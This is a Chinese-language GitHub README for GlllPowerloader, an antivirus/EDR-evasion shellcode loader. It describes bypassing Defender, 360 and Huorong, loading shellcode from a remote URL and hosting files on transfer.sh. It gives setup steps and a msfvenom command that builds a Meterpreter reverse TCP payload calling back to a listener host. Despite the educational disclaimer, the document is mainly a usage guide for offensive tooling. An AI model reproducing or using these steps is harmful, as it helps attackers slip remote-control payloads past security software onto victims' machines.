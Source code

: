 # GlllPowerloader

- [GlllPowerloader](#glllpowerloader)
- [1.前言](#1前言)
- [2.功能](#2功能)
- [3.使用](#3使用)
  - [0x01.环境安装](#0x01环境安装)
  - [0x02.shellcode loader的使用](#0x02shellcode-loader的使用)
  - [0x03.视频演示](#0x03视频演示)
- [4.更新](#4更新)
- [5.免责声明](#5免责声明)
- [6.致谢](#6致谢)



# 1.前言

* 视频讲解：https://www.bilibili.com/video/BV1RK411z7XA/  欢迎点赞关注

- 刚开始可以免杀主流杀软的，不过后面肯定会被乱杀，开源的目的是学习恶意代码和自动化脚本
- 本人并不推荐shellcode加密，一般的加密算法都会使程序熵增，可以使用远程加载和图片隐写的方式分离shellcode

# 2.功能



|       功能       |                描述                |
| :--------------: | :--------------------------------: |
|   1.免杀加载器   | 各种方式加载shellcode，绕过AV/EDR  |
|  2.文件格式转换  |    Windows中文件格式之间的转换     |
| 3.自动化文件托管 | 将文件托管到：https://transfer.sh/ |



# 3.使用

## 0x01.环境安装

您必须下载并安装以下环境：

1.Mingw64(C/C++)：https://github.com/niXman/mingw-builds-binaries/releases/download/12.2.0-rt_v10-rev2/x86_64-12.2.0-release-posix-seh-msvcrt-rt_v10-rev2.7z

解压完以后，将bin目录添加至环境变 量即可

使用Git下载项目

```
git clone https://github.com/INotGreen/GlllPowerloader.git
cd GlllPowerLoader-master
pip install -r requirements.txt
start.bat
```



## 0x02.使用方法

- 大部分已经不能免杀了，不过稍微改一下还是能过主流AV
- 必须保证你的shellcode是干净的，否则还是会被Windows Defender抓住，您可以学习[Reflective DLL Injection](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)和[sRDI](https://github.com/monoxgas/sRDI/tree/master)来自定义shellcode
- 如果你在使用的过程中被defender查杀了，有可能是您使用的C2工具shellcode内存被抓住了，而不一定是加载器的问题
- 加载方式采用URL分离加载，所以你需要将shellcode（bin文件）上传或者托管至网站，并且记下URL


Metasploit:

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.1.0 LPORT=4488 -f raw -o payload.bin
```



## 0x03.视频演示



![示例GIF](https://github.com/INotGreen/GlllPowerloader/blob/main/Image/demo.gif)

# 4.更新

[+] 2022年12.21，Powerloader发布

[+]2023 年11.15， 删除冗余的功能，优化代码，（之前的版本涉及语言安装环境太多了，使用太麻烦，为了简便就留C/C++的加载器）

[+]2023年11.20，免杀defender，360，火绒（前提是shellcode内存是没有被标记的）

免杀加载器正在更新中。。。


# 5.免责声明

该工具仅用于网络安全教育和研究，禁止用于非法途径，我对您由使用或传播等由此软件引起的任何行为和/或损害不承担任何责任。您对使用此软件的任何行为承担全部责任，并承认此软件仅用于教育和研究目的。下载本软件或软件的源代码，您自动同意上述内容。

# 6.致谢

https://github.com/icyguider/Shhhloader

